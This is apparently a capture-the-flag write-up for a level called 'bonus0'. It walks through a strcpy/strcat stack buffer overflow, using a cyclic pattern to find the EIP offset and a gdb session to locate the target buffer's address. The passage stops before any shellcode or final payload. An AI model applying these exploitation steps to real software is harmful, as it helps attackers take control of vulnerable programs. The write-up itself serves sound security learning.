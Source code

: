 Simple method. If you write more than 20 bytes in the first input, and more than 20 bytes in the second input, `strcpy(param_1,buffer1);` will write undefined bytes in the buffer, maybe `param_2` also. And the `strcat` will write undefined bytes in the buffer. So we overflow the buffer of the main function, and we can overwrite the EIP.

First input:
```bash
01234567890123456789
```
Second input:
```bash
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```
```bash
(gdb) info registers
...
eip            0x41336141	0x41336141
...
```
We can see that the EIP is overwritten with `0x41336141`, so the offset is 9 bytes.

Now, we will find the address of the `p` buffer.
```bash
(gdb) disass p
Dump of assembler code for function p:
...
   0x080484c3 <+15>:	call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:	movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax
   0x080484d6 <+34>:	mov    %eax,0x4(%esp)
   0x080484da <+38>:	movl   $0x0,(%esp)
   0x080484e1 <+45>:	call   0x8048380 <read@plt>
   0x080484e6 <+50>:	movl   $0xa,0x4(%esp)
...  
End of assembler dump.
(gdb) 
```
We can see `lea` wich load the address of the buffer in `eax`. So the buffer adress is `ebp - 0x1008`.
So we can set a breakpoint just before the `lea` instruction, run the program, and examine the stack to find the address of the buffer.
```bash
(gdb) break *0x80484d0
Breakpoint 1 at 0x80484d0
(gdb) run
Starting program: /home/user/bonus0/bonus0 
 - 

Breakpoint 1, 0x080484d0 in p ()
(gdb) x $ebp-0x1008
0xbfffe680:	0x00000000
```
The address of the buffer is `0xbfffe680`.
